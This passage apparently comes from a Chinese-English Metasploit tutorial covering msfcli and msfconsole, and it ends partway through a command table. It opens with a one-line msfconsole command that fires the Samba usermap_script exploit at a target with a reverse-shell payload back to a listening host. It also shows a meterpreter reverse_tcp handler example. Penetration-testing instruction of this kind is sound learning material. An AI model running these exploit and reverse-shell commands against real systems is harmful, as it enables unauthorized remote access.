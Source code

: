 root@kali:~# msfconsole -x "use exploit/multi/samba/usermap_script;\
set RHOST 172.16.194.172;\
set PAYLOAD cmd/unix/reverse;\
set LHOST 172.16.194.163;\
run"
```

可以使用下列方法获得帮助：
```
root@kali:~# msfcli -h
Usage: /usr/bin/msfcli<option=value> [mode]
===========================================================

    Mode           Description
    ----           -----------
    (A)dvanced     Show available advanced options for this module
    (AC)tions      Show available actions for this auxiliary module
    (C)heck        Run the check routine of the selected module
    (E)xecute      Execute the selected module
    (H)elp         You're looking at it baby!
    (I)DS Evasion  Show available ids evasion options for this module
    (O)ptions      Show available options for this module
    (P)ayloads     Show available payloads for this module
    (S)ummary      Show information about this module
    (T)argets      Show available targets for this exploit module

Examples:
msfcli multi/handler payload=windows/meterpreter/reverse_tcp lhost=IP E
msfcli auxiliary/scanner/http/http_version rhosts=IP encoder= post= nop= E
```

#### Benefits of the MSFcli Interface

- 支持启动 exploits and auxiliary modules
- 有助于特殊任务
- 好学
- 易于测试一个新开发的渗透
- 时一次性渗透的好工具
- 快速渗透

The only real drawback of msfcli is that it is not supported quite as well as msfconsole and it can only handle one shell at a time, making it rather impractical for client-side attacks. It also doesn’t support any of the advanced automation features of msfconsole.

### MSFconsole 命令

#### Core Commands
|命令|功能|
|-|-|
|back|从当前上下文返回原环境。|
|banner| 显示标志 awesome metasploit banner|
|cd| 进入某个工作目录|
|color| 色彩|
|connect|与某个主机通信|
|edit|  使用 $VISUAL or $EDITOR 编辑当前模块|
|exit|  退出控制台|
|get|  获取某个上下文相关的变量的值。|
|getg| 获取某个全局变量的值|
|go_pro|登录msf web ui|
|grep|  GREP另一个命令输出|
|help|  Help menu|
|info| 显示一个或多个模块的信息|
|irb|   Drop into irb scripting mode|
|jobs| 显示和管理作业|
|kill| 杀死作业|
```